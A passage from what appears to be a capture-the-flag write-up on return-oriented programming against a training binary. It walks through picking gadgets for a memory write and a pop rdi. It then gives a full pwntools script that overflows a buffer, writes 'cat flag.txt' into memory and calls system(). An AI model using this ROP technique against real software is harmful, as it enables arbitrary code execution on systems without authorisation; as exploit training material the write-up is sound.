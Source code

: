 ```text
0x00000000004007a5: xlatb; or byte ptr [rax], al; call 0x5d0; mov eax, 0; pop rbp; ret; 
```

But what exactly are we looking for? Firstly, we have to find a gadget that will place value at memory address. In assembly this operation looks like this `MOV [R0], R1`, which directly translates to move value from register `R1` to memory at address held by register `R0`. 

The best candidate would gadget at address `0x0000000000400820` which is `mov qword ptr [r14], r15; ret;` So we can now place a value into memory, but we also need to place values into these registers with `pop`, which we can do with this gadget `pop r14; pop r15; ret;` at addtess `0x0000000000400890`. Now to finally finish collecting addresses, we have to come back and get the address of `system()` and in order to place the address of the string as the argument to this call, `pop rdi` will be needed. This gadget can be found at address `0x0000000000400893`.

Great, now we can start writing our exploit. 

* Use `pop` gadget to place the address of our string, and string in registers
* Use `mov` gadget to place the string into the memory at provided address
* Use `pop rdi` gadget to place the address of the string into register.
* Call address of `system()` which uses `rdi` as the argument register holding address of our string. 

Doesn't seem hard after all, right?

```python
from pwn import *

def place_string_at_address(mov_gadget_address, pop_gadget_address, string_address, string):

     # We have to remember that the length of the string has to be
     # divisibe by eight to make the padding in payload correct.
     while len(string) % 8 != 0:
          string += "\x00"

     splitted_string = [string[i:i + 8] for i in range(0, len(string), 8)]
     payload = ""
     for i in range(len(splitted_string)):
        
          # Place the gadgets into the payload.
          payload += p64(pop_gadget_address)
          payload += p64(string_address + (i * 8)) # We have to increment address in order
                                                   # to not overwrite previous strings.

          payload += splitted_string[i]
          payload += p64(mov_gadget_address)

     return payload

# 40 bytes of random data.
offset = 'A' * 40

offset += place_string_at_address(0x400820, 0x400890, 0x601050, "cat flag.txt")

offset += p64(0x0000000000400893) # Address of pop rdi
offset += p64(0x0000000000601050) # Address of string
offset += p64(0x00400810)         # Address of system()

print(offset)
```
